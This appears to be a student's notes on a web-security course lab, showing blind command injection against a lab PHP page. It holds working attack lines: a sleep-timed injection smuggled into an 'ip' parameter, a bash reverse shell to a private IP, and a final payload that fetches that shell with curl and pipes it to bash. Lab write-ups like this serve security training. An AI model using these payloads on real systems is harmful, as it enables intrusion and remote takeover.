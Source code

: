 ----------
#### 11.2.4 Extra Mile 

##### Labs
1.
Command making sure that command execution works with the sleep command
```bash
┌──(root💀gobots)-[30Oct2024 23:29:02]-[/home/kali/SUT/OSWA]                                                                                           
└─# time curl "http://ci-sandbox:80/php/blind_exercise.php?ip=127.0.0.1;sleep%2020"
```

![[Pasted image 20241030193156.png]]
created a revshell - was unable to have a one liner reverse shell
```bash
┌──(root💀gobots)-[30Oct2024 23:45:55]-[/home/kali/SUT/OSWA]
└─# cat revshell            
bash -i >& /dev/tcp/192.168.45.222/4444 0>&1
```
opened python3 server
```bash
┌──(root💀gobots)-[30Oct2024 23:47:43]-[/home/kali/SUT/OSWA]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.189.101 - - [30/Oct/2024 23:48:33] "GET /revshell HTTP/1.1" 200 -

```
opened up netcat listener
```bash
┌──(root💀gobots)-[30Oct2024 23:46:04]-[/home/kali]                                                                                                    
└─# nc -nlvp 4444                                                                                                                                       
listening on [any] 4444 ...     
```
curl reverse shell one liner
- utilizes `sleep 20` to get command execution
- `curl` to pull over the reverse shell
-  `bash` to execute the file
```bash
┌──(root💀gobots)-[30Oct2024 23:47:33]-[/home/kali/SUT/OSWA]
└─# time curl "http://ci-sandbox:80/php/blind_exercise.php?ip=127.0.0.1;sleep%2020;bash%20-c%20'curl%20http://192.168.45.222/revshell%20|%20bash'"
```
caught reverse shell
![[Pasted image 20241030211807.png]]
flag
![[Pasted image 20241030211822.png]]